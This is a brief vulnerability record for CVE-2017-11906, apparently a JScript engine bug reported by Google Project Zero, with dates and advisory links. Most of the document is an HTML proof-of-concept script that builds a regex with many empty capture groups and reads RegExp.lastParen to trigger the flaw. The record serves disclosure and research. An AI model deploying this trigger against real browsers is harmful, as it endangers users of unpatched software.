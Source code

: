 # CVE-2017-11906

- Report: Oct 2017
- Fix: Dec 2017
- Credit: ifratric of Google Project Zero

## PoC

```html
<script language="Jscript.Encode">

function go() {
  var r= new RegExp(Array(100).join('()'));
  ''.search(r);
  alert(RegExp.lastParen);
}

go();

</script>
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11906)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1382)
